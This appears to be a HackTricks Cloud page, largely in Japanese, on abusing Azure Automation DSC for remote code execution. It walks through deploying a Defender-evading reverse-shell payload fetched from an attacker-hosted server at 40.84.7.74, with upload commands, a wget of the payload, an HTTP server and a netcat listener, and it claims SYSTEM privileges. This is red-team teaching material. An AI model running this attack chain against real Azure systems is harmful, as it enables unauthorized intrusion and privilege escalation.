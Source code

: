 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

このプロセスは、Windows Defenderを回避するように設計された修正されたNishang `Invoke-PowerShellTcp.ps1`ペイロード、`RevPS.ps1`をホストするためのリモートサーバーインフラストラクチャの設定を含みます。ペイロードは、IP `40.84.7.74`のKali LinuxマシンからシンプルなPython HTTPサーバーを使用して提供されます。この操作は、いくつかのステップを通じて実行されます。

#### Step 1 — Create Files

* **Files Required:** 必要なPowerShellスクリプトは2つです：
1. `reverse_shell_config.ps1`: ペイロードを取得して実行するDesired State Configuration (DSC)ファイル。これは[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1)から入手可能です。
2. `push_reverse_shell_config.ps1`: VMに構成を公開するためのスクリプトで、[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)で入手できます。
* **Customization:** これらのファイル内の変数とパラメータは、リソース名、ファイルパス、サーバー/ペイロード識別子を含むユーザーの特定の環境に合わせて調整する必要があります。

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1`は、Azure Storage Accountへの転送の準備が整うように`.zip`ファイルに圧縮されます。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — ストレージコンテキストの設定とアップロード

* ZIP形式の構成ファイルは、AzureのSet-AzStorageBlobContent cmdletを使用して、事前定義されたAzure Storageコンテナazure-pentestにアップロードされます。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### ステップ 4 — Kali ボックスの準備

* Kali サーバーは、GitHub リポジトリから RevPS.ps1 ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* スクリプトは、ターゲットのWindows VMとリバースシェルのポートを指定するように編集されます。

#### Step 5 — 設定ファイルを公開する

* 設定ファイルが実行され、リバースシェルスクリプトがWindows VMの指定された場所にデプロイされます。

#### Step 6 — ペイロードをホストし、リスナーを設定する

* ペイロードをホストするためにPythonのSimpleHTTPServerが起動され、受信接続をキャプチャするためのNetcatリスナーが設定されます。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* スケジュールされたタスクがペイロードを実行し、SYSTEMレベルの特権を達成します。

#### 結論

このプロセスの成功した実行は、資格情報のダンプや攻撃を複数のVMに拡大するなど、さらなるアクションの可能性を開きます。このガイドは、Azure Automation DSCの領域での継続的な学習と創造性を奨励しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

